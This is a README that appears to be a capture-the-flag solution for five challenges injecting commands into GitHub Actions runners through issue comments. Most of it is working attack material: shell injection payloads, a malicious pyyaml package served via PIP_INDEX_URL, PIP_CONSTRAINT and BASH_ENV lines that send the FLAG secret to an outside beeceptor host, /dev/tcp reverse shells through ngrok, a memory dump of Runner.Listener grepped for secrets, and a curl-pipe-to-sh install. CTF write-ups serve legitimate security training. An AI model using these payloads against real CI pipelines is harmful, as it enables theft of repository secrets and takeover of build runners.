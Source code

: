 <a id="readme-top"></a>
<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li>
      <a href="#chall-1">Challenge 1</a>
    </li>
    <li>
      <a href="#chall-2">Challenge 2</a>
      <ul>
        <li><a href="#using-pip_index_url">Using PIP_INDEX_URL</a></li>
        <li><a href="#using-pip_constraint">Using PIP_CONSTRAINT</a></li>
      </ul>
    </li>
    <li>
      <a href="#chall-3">Challenge 3</a>
      <ul>
        <li><a href="#using-bash_env">Using BASH_ENV</a></li>
        <li><a href="#using-bash_func">Using BASH_FUNC</a></li>
      </ul>
    </li>
    <li>
      <a href="#chall-4">Challenge 4</a>
    </li>
    <li>
      <a href="#chall-5">Challenge 5</a>
    </li>
  </ol>
</details>

# Chall 1

Issue Comment:
``` bash
Hello, there!'; echo "Here is your flag: ${FLAG}" | base64 ;echo 'General Kenobi
```
<p align="right">(<a href="#readme-top">back to top</a>)</p>






# Chall 2
### Using PIP_INDEX_URL
> [!NOTE]
> - [PIP environment variables doc](https://pip.pypa.io/en/latest/cli/pip_install/)
> - [Pypi PyYAML](https://pypi.org/project/PyYAML/)
> - [Cloudsmith](https://cloudsmith.io/~nebco/packages/)

_Below is how to setup the library to inject_
1. Install Python
2. Install PIP
```sh
pip install wheel
pip install setuptools
```
4. Create a new directory named pyyaml
5. Create a setup.py
```Python
from setuptools import setup, find_packages

setup(
    name='pyyaml',
    version='6.0.1',
    packages=find_packages(),
    install_requires=[],  # Si tu veux ajouter des dépendances
    entry_points={
        'console_scripts': [
            'yaml = yaml.main:main',  # yaml sera la commande qui déclenchera ton script
        ],
    },
)
```
6. Create a directory named `yaml`
7. Add `__INIT__` file in the directory named yaml and edit:
```Python
import os

print("HELLO TDF")
env_vars = os.environ
for key, value in env_vars.items():
    if key == "flag" or key == "FLAG":
        print("===== FLAG SPLIT =====")
        print(f'Part 1 (0-5): {value[0:5]}')
        print(f'Part 2 (5-100): {value[5:100]}')
```
8. Directory should be like that
<ul>
  <li>pyyaml</li>
    <ul>
      <li>setup.py</li>
      <li>yaml</li>
      <ul>
        <li>__init__.py</li>
      </ul>
    </ul>
  </li>
</ul>
10. Execute
``` sh
python setup.py bdist bdist_wheel
```

Issue Comment:
``` sh
Not a release :(
PIP_INDEX_URL=https://cloudsmith.io/~nebco/packages/#
```
> [!TIP]
> Alternatives to cloudsmith:
> - Host your own registry (local, AWS or other...)
> - Use github pages
>
> Sometimes indentation doesn't work when commenting an issue. It is therefore preferable to use `Github CLI` directly and push a file. `gh issue comment <id_issue> -F <file_name>`
<p align="right">(<a href="#readme-top">back to top</a>)</p>





### Using PIP_CONSTRAINT
> [!NOTE]
> - [Beeceptor](https://beeceptor.com/)
> - [Beeceptor for the demo](https://app.beeceptor.com/console/tdf123456)

1. Go to BeeCeptor.com
2. add new `Mocking Rules`
``` md
Match value: /<file_name>.txt
Response body: pyyaml@https://tdf123456.free.beeceptor.com/${FLAG}%
```

Issue Comment:
``` bash
Not a release :(
PIP_CONSTRAINT=https://tdf123456.free.beeceptor.com/constraint.txt
```
<p align="right">(<a href="#readme-top">back to top</a>)</p>





# Chall 3
### Using BASH_ENV
> [!NOTE]
> - [Bash variables doc](https://www.gnu.org/software/bash/manual/html_node/Bash-Variables.html)
> - [Beeceptor](https://beeceptor.com/)
> - [Beeceptor for the demo](https://app.beeceptor.com/console/tdf123456)

Body Issue Comment:
``` bash
Let me do something with this env :)
BASH_ENV=$(curl https://tdf123456.free.beeceptor.com?flag=$(echo "$FLAG" | base64))
```
<p align="right">(<a href="#readme-top">back to top</a>)</p>





### Using BASH_FUNC
Body Issue Comment:
``` bash
Let me do something with this env :)
# BASH_FUNC_echo%%=() { builtin echo "coucou $@" | printenv | base64 ;}
BASH_FUNC_echo%%=() { builtin echo "$FLAG $@" | base64 ;}
```
 <p align="right">(<a href="#readme-top">back to top</a>)</p>





# Chall 4
1. Open a terminal for setup (client side)
2. Listen with NC
``` bash
nc -lv 4444
```
3. setup ngrok (new terminal)
``` bash
ngrok tcp 4444
```
4. Get ngrok IP to build payload (new terminal)
``` bash
dig <NGROK_DNS>
```

Body Issue Comment:
``` bash
Where is my bash ??
$(bash -i >& /dev/tcp/<NGROK_IP>/<NGROK_PORT> 0>&1)
```
5. Investigate in the runner 
The directory `/home/runner/work/_temp` look interesting...


> [!TIP]
> Fancy shell for lazy DevOps :)
> ``` bash
> curl -sSf https://sshx.io/get | sh -s run
> ```
<p align="right">(<a href="#readme-top">back to top</a>)</p>





# Chall 5
1. Open a terminal for setup (client side)
2. Listen with NC
``` bash
nc -lv 4444
```
3. setup ngrok (new terminal)
``` bash
ngrok tcp 4444
```
4. Get ngrok IP to build payload (new terminal)
``` bash
dig <NGROK_DNS>
```
Body Issue Comment:
``` bash
Where is my bash ??
; bash -i >& /dev/tcp/<NGROK_IP>/<NGROK_PORT> 0>&1
```
5. Dump `Runner.Listener` process memory and check those secrets
``` bash
sudo apt-get install -y gdb; sudo gcore -o k.dump "$(ps ax | grep 'Runner.Listener' | head -n 1 | awk '{print $1}')"; grep -Eao '"[^"]+":\{"value":"[^"]*","isSecret":true\}' k.dump*
```

> [!TIP]
> Fancy shell for lazy DevOps :)
> ``` bash
> curl -sSf https://sshx.io/get | sh -s run
> ```
<p align="right">(<a href="#readme-top">back to top</a>)</p>
 
